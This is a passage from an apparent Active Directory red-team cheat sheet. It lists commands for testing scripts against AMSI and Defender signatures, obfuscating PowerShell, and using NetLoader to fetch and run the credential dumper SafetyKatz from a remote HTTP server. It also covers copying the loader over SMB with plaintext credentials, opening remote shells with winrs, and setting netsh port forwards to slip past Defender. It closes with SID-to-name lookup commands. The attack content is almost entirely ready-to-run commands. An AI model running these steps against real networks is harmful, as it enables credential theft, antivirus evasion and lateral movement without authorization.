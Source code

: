 Provide path and file to scan: `AMSITrigger_x64.exe -i c:\path\to\script.ps1` and `DefenderCheck.exe PowerUp.ps1`  
For full obfuscation of PS scripts: Invoke-Obfuscation (Github) - https://github.com/danielbohannon/Invoke-Obfuscation  

## Payload Delivery

Use NetLoader (https://github.com/Flangvik/NetLoader) to deliver our binary payloads.  
Basic usage:  

```powershell
# Run on remote machine to load remote binary:
C:\Users\Public\Loader.exe -path http://192.168.100.X/SafetyKatz.exe
```

Use a port forward to bypass Defender checks:  

```powershell
# run hfs.exe on local machine with the desired binary (https://www.rejetto.com/hfs/)
net use x: \\<remote-hostname>\C$\Users\Public /user:<remote-hostname>\<Username> <password>
echo F | xcopy C:\AD\Tools\Loader.exe x:\Loader.exe
# remove the share:
net use x: /d

winrs -r :<target-hostname> -u:hostname\user -p:password cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=<ip with hfs>
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe

# If the binary fails, check for AppLocker or DeviceGuard
```

## Convert SID to Name and Vice Versa

```powershell
# AD Module
## Name from SID
Get-ADUser -Filter * -Server <domain> | ?{$_.SID -match '<SID>'}
Get-ADGroup -Filter * -Server <domain> | ?{$_.SID -match '<SID>'}
Get-ADObject -Filter * -Server <domain> | ?{$_.SID -match '<SID>'}

Get-ADUser -Identity <sid>
Get-ADGroup -Identity <sid>

## SID from name
Get-ADUser -Identity <username> | Select-Object sid
Get-ADComputer -Identity <computer name> | Select-Object sid

# PowerView
ConvertTo-SID <name>
ConvertFrom-SID <SID>
```

## Convert Password to Hash
